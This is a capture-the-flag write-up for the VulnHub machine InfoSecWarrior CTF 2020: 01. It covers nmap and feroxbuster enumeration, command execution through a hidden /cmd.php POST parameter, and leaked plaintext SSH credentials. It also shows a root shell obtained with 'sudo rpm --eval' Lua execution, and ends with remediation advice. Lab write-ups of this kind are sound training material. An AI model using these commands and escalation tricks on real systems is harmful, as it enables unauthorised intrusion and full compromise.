








#  InfoSecWarrior CTF 2020 01

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [InfoSecWarrior CTF 2020: 01](https://www.vulnhub.com/entry/infosecwarrior-ctf-2020-01,446/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This VM is given as challenge 1 in InfoSecWarrior CTF 2020. Official website : https://www.infosecwarrior.com/. Box Designed by: MAALP & CyberKnight00*


## Summary
InfoSecWarrior CTF 2020: 01 starts when I found the domain name  `infosecwarrior.com` after performing a dictionary attack with `feroxbuster` and find it in the `/sitemap.xml` endpoint and it also contains the link to the `/index.htnl` endpoint, when I visit it then I find a hidden form to `/cmd.php` that allows executing bash command with the `www-data` users. When I read the `cmd.php` file, I find plaintext credentials `isw0:123456789blabla` that works to use it in the `ssh` connection, after I connect it, I get the user flag, when exploring the sudo privileges I find I can run `/bin/rpm` as the root user, and when I check the [gtfobins to rpm](https://gtfobins.github.io/gtfobins/rpm/), then I find I can use the `--eval` switch to spawn a shell, then I get the root shell.


1. CWE-540: Inclusion of Sensitive Information in Source Code
2. CWE-912: Hidden Functionality
3. CWE-256: Plaintext Storage of a Password
4. CWE-250: Execution with Unnecessary Privileges


#VirtualBox #Nmap #Feroxbuster #gtfobins #RPM

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), then I identify in the target prompt the IP `192.168.2.23`:

When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.23`:



And I start scanning the target with `nmap`:
```shell
$ nmap -sV -oA scans/nmap-tcp-scan 192.168.2.23
# Nmap 7.92 scan initiated Fri Jan 20 14:30:03 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.2.23
Nmap scan report for infosecwarrior.com (192.168.2.23)
Host is up (0.0054s latency).
Not shown: 983 filtered tcp ports (no-response), 15 filtered tcp ports (host-unreach)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.15 ((CentOS))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 20 14:30:23 2023 -- 1 IP address (1 host up) scanned in 20.29 seconds
```
And I identify 2 open ports, and the `OpenSSH 5.3` service runs on `22` TCP, and the `Apache httpd 2.2.15` service runs on `80` TCP, and it runs on CentOS.
When I run the `feroxbuster` command with a list of SecList:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt \
> -u http://192.168.2.23 -x php,txt,md,jpg,xml
```
Then I find multiple endpoints:



When I visit the `/sitemap.xml`:
```shell
$ curl http://192.168.2.23/sitemap.xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://infosecwarrior.com/sitemap/0.9">
  <url>
      <loc>http://infosecwarrior.com/index.htnl</loc>
      <lastmod>2020-02-13</lastmod>
...SNIPPED...
```
Then I can see the domain name `infosecwarrior.com`, and I add it to my `/etc/hosts`:
```shell
$ echo "192.168.2.23 infosecwarrior.com" | sudo tee -a /etc/hosts
```


## Normal use case

Given I access `http://infosecwarrior.com`, then I can see the Apache default page



When I visit `http://infosecwarrior.com/wordpress`, then I see the text of an error in the database



## Dynamic detection
The website contains a hidden functionality that allows bash command injection.

When I access `http://infosecwarrior.com/index.htnl`, and that is the link I found in the `/sitemap.xml` endpoint, then I can see a random gif:



When I see the source code, then I see a hidden form from lines 6 to 11:
```html
06 <form action = "/cmd.php" hidden="True" method = "GET">
07 command
08     <input type = "text" name = "AI" value = "" maxlength = "100" />
09 <br />
10 <input type = "submit" value ="Submit" />
11 </form>
```
And I can assume that I could run commands at the `/cmd.php` endpoint

Given I can access `http://infosecwarrior.com/cmd.php`, then I start trying to run commands with the `AI` parameter. When I do a `GET` request with the `curl` command:
```shell
$ curl "http://infosecwarrior.com/cmd.php?AI=id"
Now the main part what it is loooooool<br>Try other method
```
Then I get a error response, and for that message I use the `OPTIONS` method:
```shell
$ curl -X OPTIONS  "http://infosecwarrior.com/cmd.php" -v
...SNIPPED...
< Server: Apache/2.2.15 (CentOS)
< X-Powered-By: PHP/5.3.3
< Location: https://www.armourinfosec.com/category/information-gathering/
...SNIPPED...
```
But it does not return the other available methods, but I can identify the `PHP version 5.3.3`, and the `Location` header has a link to some enumeration techniques, when I use the `POST` method with the `curl` command:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=id"
You Found ME : - (<pre>uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
```
Then I  can conclude that with a `POST` request to the `/cmd.php` endpoint, and with the `AI`'parameter I can run `bash` commands.

## Exploitation
Bash command injection, read plaintext credentials, and use Sudo privileges.

Given I can access `http://infosecwarrior.com/cmd.php`, And the `AI` parameter I can run bash commands in a `POST` request, then I can execute the following command:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=ls -la"
You Found ME : - (<pre>total 424
...
-rw-r--r--. 1 root   root      440 Feb 17  2020 cmd.php
-rw-r--r--. 1 root   root   309817 Feb 13  2020 hacker.gif
-rw-r--r--. 1 root   root      366 Feb 13  2020 index.htnl
-rw-r--r--. 1 root   root    94026 Feb 13  2020 minnions.gif
-rw-r--r--. 1 root   root      120 Feb 17  2020 note.txt
...SNIPPED...
```
When I read the code in the `cmd.php` file:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=cat cmd.php
```
Then I get the output:



And I can see plaintext credentials `isw0:123456789blabla`, and I guess I could use them in an `ssh` connection. When I use the `ssh` command:
```shell
$ sshpass -p "123456789blabla" ssh isw0@192.168.2.23
```
Then I get the `isw0` shell, and I see the user flag :



## Privilege escalation

When I enumerate the server, I use the `sudo` command:
```shell
$ sudo -l
...SNIPPED...
User isw0 may run the following commands on this host:
(!root) NOPASSWD: /bin/bash
(root) /bin/ping, (root) /bin/ping6, (root) /bin/rpm, (root) /bin/ls,
(root) /bin/mktem
```
And I can see there are 5 binaries that I can run with root privileges. When I search for the binaries in gtfobins, then I see that I can get a shell with the command [rpm](https://gtfobins.github.io/gtfobins/rpm/), and I follow the instructions.


When I run the `/bin/rpm` command:
```shell
$ sudo /bin/rpm --eval '%{lua:os.execute("/bin/sh")}'
```
Then I get the root shell, and I can see the root flag :



## Remediation

Given I can access the `/cmd.php` endpoint with a public user, and I can run bash commands, and in the `cmd.php` file, there are shell credentials in plaintext, and the user of those credentials has sudo privileges, then they have to avoid exposing critical resources to public users, and they must not store plaintext credentials, and not reuse them, and less write them into a file in the webroot, and avoid giving unnecessary root privileges to a user.then with that, it may not be possible to get the root's shell.
